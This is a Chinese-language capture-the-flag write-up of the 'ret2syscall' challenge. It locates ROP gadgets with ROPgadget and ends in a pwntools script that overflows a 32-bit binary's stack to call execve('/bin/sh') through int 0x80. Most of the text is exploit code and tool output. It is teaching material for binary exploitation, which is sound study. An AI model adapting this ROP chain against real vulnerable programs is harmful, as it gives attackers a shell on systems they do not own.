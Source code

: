 # ret2syscall

检查程序保护

![image-20240426092137591](图片/image-20240426092137591.png)

反汇编如下

![image-20240426092545745](图片/image-20240426092545745.png)

没有system()，无法栈执行，先找一下有没有足够的gadgets构造一个系统调用

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0



调用号eax：

```shell
ROPgadget --binary ret2syscall --only 'pop|ret' | grep  'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
√0x080bb196 : pop eax ; ret	
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

第一个参数ebx

```shell
ROPgadget --binary ret2syscall --only 'pop|ret' | grep -E 'ebx|ecx|edx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
√0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

0x0806eb90 这个地址上可以一次构造三个寄存器的值



接着查找/bin/sh的地址

```shell
ROPgadget --binary ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```



最后是系统调用，在X86架构下，int 0x80 与sysenter都可以系统调用

```shell
ROPgadget --binary ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```



最后开始构造exp

```python
from pwn import*

sh = process('./ret2syscall')

popeax_ret = 0x080bb196
popedxecxebx_ret = 0x0806eb90
binsh = 0x080be408
int_0x80 = 0x08049421

payload = flat([b'a'*112,0x080bb196,0xb,0x0806eb90,0x00,0x00,binsh,int_0x80])

sh.sendline(payload)
sh.interactive()
```

